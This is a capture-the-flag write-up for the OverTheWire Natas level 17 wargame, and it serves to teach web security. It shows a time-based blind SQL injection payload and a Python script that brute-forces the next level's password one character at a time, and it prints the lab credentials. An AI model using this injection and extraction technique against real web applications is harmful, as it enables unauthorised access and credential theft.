

> Checking the source code:



> We see that the results of the query are not printed, meaning this is a blind SQL injection.
> Therefore, we can use blind techniques using time delays.

> Using this payload to carry out the blind attack using delays:
```
natas18"+AND+password+like+binary+"a%"+AND+SLEEP(5)+#+#
```

> The response comes back after 5 seconds if the password starts with the letter `a`. Test using burp repeater.
> We can write a python script to brute force all the characters, and if a time delay is found, append another character after the first one found.

```python
import requests
import re
from string import *

auth_username = "natas17"
auth_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"
url = "http://natas17.natas.labs.overthewire.org/"

session = requests.Session()

characters = digits + ascii_letters
password = ""

while len(password) < 32:
    for char in characters:
        print("Trying: " + password + char + "...")
        response = session.post(url, data={"username": "natas18\" and password like binary \"" + password + char + "%\" and sleep(2) # #"}, auth=(auth_username, auth_password))
        if response.elapsed.seconds >= 2:
            password += char
            break
```

> After a while, we get this password:

```
natas18:8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
```

---
